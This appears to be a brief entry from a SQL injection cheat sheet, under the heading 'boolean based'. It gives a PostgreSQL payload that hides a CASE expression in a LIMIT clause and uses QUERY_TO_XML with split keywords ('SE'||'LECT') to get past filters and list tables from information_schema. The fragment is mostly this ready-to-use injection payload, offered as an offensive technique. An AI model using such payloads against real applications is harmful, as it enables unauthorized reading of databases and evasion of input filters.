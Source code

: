 

## boolean based

- with select and `;` filter in limit or order by clause .  
- `QUERY_TO_XML` can be used to craft sql queries 
```
SELECT 'a1'  , 'a2'
limit
  CASE when QUERY_TO_XML('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')', true, true, '') IS NOT NULL THEN 1 
    ELSE 0
  END;

```
